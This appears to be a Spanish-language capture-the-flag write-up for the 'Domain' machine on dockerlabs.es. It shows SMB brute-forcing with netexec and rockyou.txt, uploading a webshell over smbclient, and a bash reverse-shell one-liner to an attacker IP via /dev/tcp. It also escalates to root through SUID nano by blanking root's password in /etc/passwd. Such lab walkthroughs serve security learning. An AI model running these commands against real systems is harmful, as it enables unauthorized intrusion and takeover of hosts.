 ```yaml
---
layout: post
author: Quino
title: Domain , DOCKERLABS
tags: cft , hacking , etico , 
---
```

Este es un reto clasificado como de dificultad easy de la plataforma dockerlabs.es .
Nos encontramos con las siguientes características y dificultades , en el tendremos que localizar la entrada al sistema , explotacion de samba , subir archivos por samba , envio de revshell y escalada de privelegios. 

## HERRAMIENTAS Y RECURSOS USADOS

- nmap
- enum4linux
- netexec
- smbmap
- smbclient

## Enumeracion

Como al arrancar la maquina ya nos dice la ip nos olvidamos de arp-scan , comprobamos la conexion con un ping.

```bash
ping -c1 172.17.0.2
```

Ahora realizamos un nmap como de costumbre sin preocuparnos del ruido pues estamos en entorno de pruebas.

```bash
sudo nmap -n -sV -sC -Pn 172.17.0.2 -oX domain.xml
```

 [Reporte](r3p0rt3s/domain.html "Reporte nmap") 

Observamos el resultado y vemos que solo tiene el 80 , el 139 y 445 abiertos .
Despues de revisar la web no encuentro nada asi que tendremos que enumerar samba y intentar extraer los usuarios.Puedes usar herramientas como enum4linux , smbmap , rpclient , metasploit ...
Vamos a hacer uso de enum4linux el cual nos devuelve datos interesantes , los cuales nos sirven para avanzar como son los recursos compartidos y los usuarios.

![enum4linux](assets/img_domain/enum4linux.png)

Ahora probamos a hacer fuerza bruta contra samba dado que conocemos los usuarios hay muchas herrainetas para esto yo me decanto por netexec.

Ejecutamos.

```bash
sudo nxc smb 172.17.0.2 --ignore-pw-decoding -u bob -p /home/quino/rockyou.txt
```

y obtenemos la password

![img nxc](assets/img_domain/nxc.png)

Una vez con la password ejecutamos smbmap para corroborar si hay permisos de escritura en algun directorio

```bash
smbmap -u bob -p star -H 172.17.0.
```
![smbmap](assets/img_domain/corroborarpermisos.png) 

## Infiltración

Ahora que ya tenemos todo listo pasamos a conectarnos a la maquina para intentar colar un archivo e intentar ejecutarlo desde la web dado que la carperta de samba es la raiz www

Para ello utilizare smbclient indicandole el directorio que antes vimos que bob puede escribir

```bash
smbclient //172.17.0.2/html -U bob
```

Una vez dentro listamos los archivos y efectivamente encontramos el index.html .

![smbclient](assets/img_domain/conexionsmbclient.png) 

Asi que vamos a subir una webshell para reenviarnos un revshell.

![subidawebshell](assets/img_domain/smbclientup.png)


Accedemos a al php que hemos subido y ejecutamos una revshell , para ello antes nos ponemos en escucha con netcat.

Atacante

```bash
sudo nc -lvnp 443
```

En la webshell

```bash 
bash -c "bash -i  >& /dev/tcp/192.168.0.112/443 0>&1"
```
Resultado :

![nc_ok](assets/img_domain/netcat.png)

## Escalada de privilegios

Como siempre empezaremos por lo mas basico buscando ficheros con permisos erroneos scripts con suid gid....
En este caso con find tenemos suerte

```bash
find / -perm -4000 2>/dev/null
```
![find](assets/img_domain/find.png)


Como vemos tenemos el procesdor de texto nano que podemos usar como superusuario asi que solo debemos editar el fichero que creamos mas conveniente para acceder al sitema.
El mas rapido y sencillo es editar /etc/passwd y eliminar la x de la linea root de ese moso no se nos pide contraseña cuando hacemos:

![etcpasswd](assets/img_domain/editpasswd.png) 

```bash
su root
```
![imgroot](assets/img_domain/root.png) 

Hasta aqui la maquina domain.
Gracias por leer

